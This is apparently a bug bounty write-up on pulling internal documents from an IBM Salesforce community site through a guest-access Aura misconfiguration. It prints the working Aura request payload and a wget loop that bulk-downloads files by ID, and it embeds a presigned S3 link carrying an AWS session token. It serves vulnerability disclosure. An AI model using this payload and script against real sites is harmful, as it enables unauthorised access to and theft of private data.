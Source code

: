 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes/crit.PNG
ribbon: DodgerBlue
description: "How to exploit Salesforce misconfiguration in the wild"
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](/assets/images/crackme/0690h000007Aly3AAC.png)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![]()

![](/assets/images/crackmes/0690h000007Aly3AAC.png)


***Final word:**
you will not understand anything if you did not read the blog first as he explained everything in it.
